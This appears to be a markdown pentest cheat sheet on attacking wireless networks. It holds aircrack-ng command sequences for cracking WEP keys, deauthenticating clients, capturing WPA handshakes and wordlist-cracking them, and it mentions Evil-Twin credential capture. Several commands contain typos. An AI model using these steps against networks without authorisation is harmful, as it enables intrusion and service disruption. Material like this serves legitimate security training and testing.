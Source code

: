 # Wireless Pentest

## Open network

- Usually for guest access and only for internet
- The guest can access it directly or they need to authenticate through a portal

## WEP

- This protocol has been completely broken for many years and should not be used anymore.
- We can find the key very easily
```
# Capture around 30 000 IV (maybe more)
airodump-ng -c 11 --bssid 60:A4:4C:20:DF:60 -w [OUTPUTFILENAME] wlan0mon
# Generate ARP traffic
aireplay-ng -3 -b 00::09:58:6F:64:1E -h 44:60:57:c8:58:A0 wlan0mon
# Monitor the number of IV with
Aircrack out.cap
# Break the key
Aircrack out.cap
```

## WPA

- 2 authentication modes :
  - Personal = WPA PSK (Pre-Shared Key) = authentification by a secret shared with everyone (like at home)
  - Enterprise = WPA MGT (Management) = EAP (Extensible Authentication Protocol). 
    It is possible to use several different EAP methods (see the official list on the IANA website) but here are the most common versions:
      - PEAP : historically the only protocol supported by Windows, transmits the credentials of the AD via an MSCHAPv2, thus allowing to recover a NetNTLMv2 hash through the Evil-Twin attack.
      - EAP-TTLS : very similar, can authenticate via login/password which can be recovered via the Evil-Twin attack if the clients do not check the certifcat of the access point.
      - EAP-TLS : mutual authentication by certificate.

### The Hacking process

![image](https://user-images.githubusercontent.com/96747355/176039405-619013ff-b308-4ae9-8fcc-80678c51e275.png)  
Source: [Practical Ethical Hacking - TCM Security](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course)

```bash
# check if the wireless card is detected
iwconfig
# shut card if necessary
ifconfig wlan0 down
# kill all interference
airmon-ng check kill
# put the card in monitor mode
iwconfig wlan0 mode monitor
# relaunch it
ifconfig wlan0 up
```

**OR**

```bash
# check if the wireless card is detected
iwconfig
# kill all interference
airmon-ng check kill
# put card in monitor mode
airmon-ng start wlan0
# check if it worked
iwconfig
# Find the ssid in our scope for the test
airodump-ng wlan0mon
# monitor our target for handshakes. For -c we need to specify the channel number found with the previous command and for the bssid option we need the mac address we also found with the previous command
airodump-ng -c <channel-number> --bbsid <MAC-ADDRESS> -w outfile 
# sending deauth
airplay-ng -0 1 -a <MAC-ADDRESS> -c <MAC-ADDRESS-STATION> wlanmon0
# check our capture .ap file to crack the handshake
ls capture*
# crack the handshake with a wordlist
aircrack-ng -w wordlist -b <MAC-ADDRESS> capture-NN.cap 
```



## Tools

- [Wifite](https://github.com/derv82/wifite2)
- [Fluxion](https://github.com/FluxionNetwork/fluxion)
- [EAPHammer](https://github.com/s0lst1c3/eaphammer)

## Equipment

- The following are equipment that can be used for wifi pentest 
  - Wireless card Alfa AWUD036NH
  - Alfa AWUS1900 
  - Alfa AWUS036ACH 
  - Alfa AWUS052NH 
  - Alfa AWUS051NH 
  - Alfa AWUS036NHR 
  - TP-Link TL-WN722N 
  - Hak5 Pineapple Nano Basic 

## Resources

{% embed url="https://gbhackers.com/wireless-penetration-testing-checklist-a-detailed-cheat-sheet/" %} Wireless pentest checklist {% endembed %}  
{% embed url="https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/" %} PWNING WPA/WPA2 NETWORKS WITH BETTERCAP AND THE PMKID CLIENT-LESS ATTACK - on evilsocket {% endembed %}  
{% embed url="https://www.aircrack-ng.org/doku.php?id=cracking_wpa" %} How to Crack WPA/WPA2 {% endembed %}  
{% embed url="https://www.wirelesshack.org/" %} WirelesSHack {% endembed %}  
{% embed url="https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course" %} Practical Ethical Hacking - TCM Security {% endembed %}  
